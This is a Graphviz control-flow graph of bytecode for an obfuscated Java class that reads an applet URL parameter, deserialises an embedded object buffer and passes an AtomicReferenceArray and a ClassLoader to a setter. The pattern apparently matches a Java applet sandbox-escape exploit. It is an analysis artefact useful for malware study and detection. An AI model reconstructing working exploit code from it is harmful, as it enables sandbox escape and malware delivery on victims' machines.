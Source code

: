 digraph "" {
    "r0 := @this: h.nxpPHC"
    "load.r r0"
    "r0 := @this: h.nxpPHC"->"load.r r0";
    "push \"p\""
    "load.r r0"->"push \"p\"";
    "virtualinvoke <h.nxpPHC: java.lang.String getParameter(java.lang.String)>"
    "push \"p\""->"virtualinvoke <h.nxpPHC: java.lang.String getParameter(java.lang.String)>";
    "staticput <h.nxpPHC: java.lang.String p_url>"
    "virtualinvoke <h.nxpPHC: java.lang.String getParameter(java.lang.String)>"->"staticput <h.nxpPHC: java.lang.String p_url>";
    "new java.io.ByteArrayInputStream"
    "staticput <h.nxpPHC: java.lang.String p_url>"->"new java.io.ByteArrayInputStream";
    "store.r r2"
    "new java.io.ByteArrayInputStream"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "staticget <h.nxpPHC: byte[] buf>"
    "load.r r2"->"staticget <h.nxpPHC: byte[] buf>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticget <h.nxpPHC: byte[] buf>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r2";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r r2"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"store.r r2";
    "store.r r2"->"load.r r2";
    "push 0"
    "load.r r2"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "store.r r3"
    "checkcast"->"store.r r3";
    "push \"string\""
    "store.r r3"->"push \"string\"";
    "push \"string\""->"load.r r2";
    "push 1"
    "load.r r2"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "push \"string2\""
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"push \"string2\"";
    "staticinvoke <h.nxpPHC: void Ara_Set(java.lang.String,java.util.concurrent.atomic.AtomicReferenceArray,java.lang.ClassLoader,java.lang.String)>"
    "push \"string2\""->"staticinvoke <h.nxpPHC: void Ara_Set(java.lang.String,java.util.concurrent.atomic.AtomicReferenceArray,java.lang.ClassLoader,java.lang.String)>";
    "staticinvoke <h.nxpPHC: void Ara_Set(java.lang.String,java.util.concurrent.atomic.AtomicReferenceArray,java.lang.ClassLoader,java.lang.String)>"->"load.r r2";
    "load.r r2"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"arrayread.r";
    "staticinvoke <h.Xbrt: void wKMdSJX(h.Xbrt)>"
    "arrayread.r"->"staticinvoke <h.Xbrt: void wKMdSJX(h.Xbrt)>";
    "goto return"
    "staticinvoke <h.Xbrt: void wKMdSJX(h.Xbrt)>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "staticinvoke <h.Xbrt: void wKMdSJX(h.Xbrt)>"->"store.r r0";
}
